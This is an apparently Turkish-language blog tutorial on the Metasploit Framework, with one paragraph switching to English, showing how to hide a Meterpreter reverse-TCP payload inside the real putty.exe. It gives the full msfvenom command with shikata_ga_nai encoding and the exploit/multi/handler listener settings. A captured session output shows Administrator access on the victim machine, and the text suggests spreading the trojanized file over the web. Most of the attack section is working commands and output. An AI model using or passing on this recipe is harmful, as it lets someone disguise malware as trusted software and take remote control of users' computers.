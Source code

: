 ```yaml
---
draft: false
title: MSF EXE Arka Kapısı
linkTitle: MSF EXE Arka Kapısı
translationKey: msf-exe-backdoor
date: 2017-06-16T14:00:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Bu yazıda, bir exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz.
url: /tr/msf-exe-arka-kapisi/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 420
---
```

## Bir EXE Dosyası İle Arka Kapı Oluşturma

Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.

Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.

## Exe Dosyası İndirme

Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.

```bash
root@kali:/var/www# wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
--2015-07-21 12:01:27--http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe

Resolving the.earth.li (the.earth.li)... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe
[following]
--2015-07-21 12:01:27--http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 (512K) [application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================>] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved [524288/524288]

root@kali:/var/www#
```

Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.

Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.

```bash

root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe

Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#
```

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```bash
msf > use exploit/multi/handler 

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```

Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.

```bash
> Sending stage (749056 bytes) to 192.168.1.201
> Meterpreter session 1 opened (192.168.1.101:443 -> 192.168.1.201:1189) at Sat Feb 05 08:54:25 -0700 2011

meterpreter > getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter >
```

Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
